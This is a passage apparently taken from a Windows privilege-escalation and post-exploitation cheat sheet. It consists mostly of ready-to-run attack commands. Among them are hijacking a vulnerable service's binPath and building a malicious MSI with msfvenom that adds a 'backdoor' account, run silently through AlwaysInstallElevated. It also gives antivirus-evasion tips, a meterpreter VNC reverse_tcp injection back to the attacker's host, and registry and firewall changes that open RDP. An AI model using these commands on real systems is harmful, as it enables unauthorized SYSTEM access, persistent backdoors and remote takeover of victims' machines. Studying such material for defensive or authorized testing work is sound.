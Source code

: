 sc stop <vuln-service>
sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
sc start <vuln-service>

Metasploit module:

exploit/windows/local/service_permissions

AlwaysInstallElevated
AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.
Check if these 2 registry values are set to “1”:

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If they are, create your own malicious msi:

msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

Then use msiexec on victim to execute your msi:

msiexec /quiet /qn /i C:\evil.msi

Metasploit module:

exploit/windows/local/always_install_elevated

Bypassing AV

   Use Veil-Evasion
   Create your own executable by “compiling” PowerShell scripts
   Use Metasploit to substitute custom EXE and MSI binaries. You can set EXE::Custom or MSI::Custom to point to your binary prior to executing the module.

Getting GUI
+ Using meterpreter, inject vnc session:

run post/windows/manage/payload_inject payload=windows/vncinject/reverse_tcp lhost=<yourip> options=viewonly=false

+ Enable RDP:

netsh firewall set service RemoteDesktop enable

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t
REG_DWORD /d 0 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f

sc config TermService start= auto
net start Termservice
netsh.exe
firewall
add portopening TCP 3389 "Remote Desktop"

OR:
